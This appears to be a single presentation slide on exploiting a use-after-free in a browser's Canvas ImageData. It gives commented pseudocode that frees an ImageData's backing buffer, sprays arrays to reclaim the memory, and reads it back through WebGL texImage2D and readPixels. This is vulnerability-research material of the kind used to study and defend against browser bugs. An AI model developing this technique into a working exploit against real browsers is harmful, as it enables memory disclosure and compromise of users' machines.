

04
Canvas ImageData UAF Vulnerability Analysis and Exploitation : Exploitation Two

WebGL ImageData pseudocode

………
var texture = gl.createTexture();
gl.bindTexture(gl.TEXTURE_2D, texture);
var fb = gl.createFramebuffer();
gl.bindFramebuffer(gl.FRAMEBUFFER, fb);
gl.framebufferTexture2D(gl.FRAMEBUFFER, gl.COLOR_ATTACHMENT0, gl.TEXTURE_2D, texture, 0);
………
var imageData = new ImageData(ta, dimension, dimension);
Free(ta.buffer);
CollectGarbage();
Allocate_array();
………
gl.texImage2D(gl.TEXTURE_2D, level, internalFormat, format, type, imageData);
ta1 = new Uint8Array(buffersize);
gl.readPixels(0, 0, dimension, dimension, gl.RGBA, gl.UNSIGNED_BYTE, ta1);

// The readPixels method needs to create a framebuffer first
//Bind a framebuffer
//attach a texture on the framebuffer

// Release ta.buffer and GC
// use integer array object to occupy ta.buffer

// The texImage2D method can write the contents of the ImageData object to the Texture.

// The readPixels method can read the contents of the Texture through the Framebuffer.